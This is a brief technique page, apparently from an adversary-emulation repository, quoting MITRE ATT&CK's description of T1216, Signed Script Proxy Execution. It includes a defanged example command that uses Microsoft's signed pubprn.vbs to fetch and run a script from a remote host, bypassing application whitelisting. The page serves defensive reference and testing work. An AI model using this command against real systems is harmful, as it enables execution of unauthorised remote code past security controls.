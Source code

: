 # T1216 - Signed Script Proxy Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1216)
<blockquote>Scripts signed with trusted certificates can be used to proxy execution of malicious files. This behavior may bypass signature validation restrictions and application whitelisting solutions that do not account for use of these scripts.

PubPrn.vbs is signed by Microsoft and can be used to proxy execution from a remote site. (Citation: Enigma0x3 PubPrn Bypass) Example command: <code>cscript C[:]\Windows\System32\Printing_Admin_Scripts\en-US\pubprn[.]vbs 127.0.0.1 script:http[:]//192.168.1.100/hi.png</code>

There are several other signed scripts that may be used in a similar manner. (Citation: GitHub Ultimate AppLocker Bypass List)</blockquote>

